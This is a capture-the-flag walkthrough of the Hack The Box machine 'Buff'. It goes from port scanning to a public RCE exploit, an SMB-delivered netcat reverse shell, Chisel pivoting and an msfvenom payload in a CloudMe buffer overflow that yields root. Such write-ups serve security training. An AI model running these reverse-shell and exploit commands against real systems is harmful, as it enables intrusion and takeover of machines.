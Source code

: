 # [Buff](https://app.hackthebox.com/machines/buff)


```bash
nmap -p- --min-rate 10000 10.10.10.198 -Pn 
```

![Alt text](img/image.png)


After knowing open ports (7680,8080), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p7680,8080 10.10.10.198 -Pn 
```



From enumeration, I see that it is CMS for Gym management system.

![Alt text](img/image-1.png)


I searched publicly known exploit and found RCE exploit.

![Alt text](img/image-2.png)


Let's use this exploit.

```bash
python2 exploit.py http://10.10.10.198:8080/
```

user.txt

![Alt text](img/image-3.png)


Let's make interactive shell, for this we need to upload `nc.exe` into target machine.

1.First, we need to open SMB share.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```

![Alt text](img/image-4.png)

2.Second, we need to download this into machine.

```bash
copy \\10.10.16.8\share\nc.exe \programdata\nc.exe
```

![Alt text](img/image-5.png)


Let's use the exploit.

```bash
\programdata\nc.exe -e cmd 10.10.16.8 1337
```

![Alt text](img/image-6.png)

We got reverse shell from port 1337.

![Alt text](img/image-7.png)


I just look at the machine via `netstat -ano` command and see open port (8888).

![Alt text](img/image-8.png)


I searched this port which belongs to **'CloudMe.exe'**.


Now, it's time to do `Port Forwarding`, for this I will use [Chisel](https://github.com/jpillora/chisel).


For this, we need to upload `chisel.exe` into target machine via SMB.

```bash
copy \\10.10.16.8\share\chisel_1.9.1_windows_amd64 c.exe
```

![Alt text](img/image-9.png)


Let's use `chisel` to create connection  (PIVOTING).


1.First, run below command on attacker's machine.
```bash
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
```

![Alt text](img/image-10.png)

2.Second, run below command on target's machine.
```bash
.\c.exe client 10.10.16.8:8000 R:8888:localhost:8888
```

![Alt text](img/image-11.png)


I find `CloudMe 1.11.2 - Buffer Overflow (PoC)` exploit which is Buffer Overflow.

But we need to add our malicious reverse shell command into script via `msfvenom` command to generate.

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -b '\x00\x0A\x0D' -f python -v payload
```

![Alt text](img/image-12.png)


As we replaced we can run the script `python2 script.py`.


I got reverse shell from port (1337).

![Alt text](img/image-13.png)


root.txt

![Alt text](img/image-14.png)